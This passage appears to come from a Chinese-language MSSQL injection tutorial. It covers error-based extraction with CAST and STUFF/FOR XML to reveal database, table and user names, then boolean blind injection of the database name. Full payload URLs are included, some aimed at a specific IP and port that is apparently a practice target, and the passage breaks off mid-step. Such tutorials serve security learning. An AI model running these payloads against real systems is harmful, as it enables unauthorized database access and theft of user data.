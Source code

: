 ```php
CAST(expression AS data_type)，将as前的参数以as后指定了数据类型转换。
```

具体用法如下：

```php
#查询当前数据库?id=1' and 1=(select cast(db_name() as int)) -- qe
```

![](https://p0.ssl.qhimg.com/t01df3bbcf46b69a91b.png)

```php
#查询第一个数据表?id=1' and 1=(select top 1 cast(name as int) from dbo.sysobjects) -- qe
```

![](https://p0.ssl.qhimg.com/t0194b470a057b6bc45.png)

## 4、数据组合输出

```php
#将数据表组合输出?id=1' and 1=stuff((select quotename(name) from dbo.sysobjects  for xml path('')),1,0,'')--+
```

![](https://p0.ssl.qhimg.com/t0126a37aad232cde94.png)

```php
#查询users表中的用户名并组合输出?id=1'  and 1=stuff((select quotename(username) from users for xml path('')),1,0,'')--+
```

![](https://p4.ssl.qhimg.com/t01c6b6db795cf3b7df.png)

# 0x05 布尔盲注

## 1、查询数据库库名

1、查询数据库库名长度为11

```php
http://219.153.49.228:40768/new_list.asp?id=2 and len((select top 1 db_name()))=11
```

![](https://p1.ssl.qhimg.com/t01d1a89cb7da54caa8.png)
2、查询第一个字符的ascii码为109

```php
http://219.153.49.228:40768/new_list.asp?id=2 and ascii(substring((select top 1 db_name()),1,1))=109http://219.153.49.228:40768/new_list.asp?id=2 and ascii(substring((select top 1 db_name()),1,1))>109
```

![](https://p5.ssl.qhimg.com/t0116e04363840e9a62.png)
![](https://p3.ssl.qhimg.com/t015abf97111fa1b9af.png)
3、查询第二个字符的ascii码为111
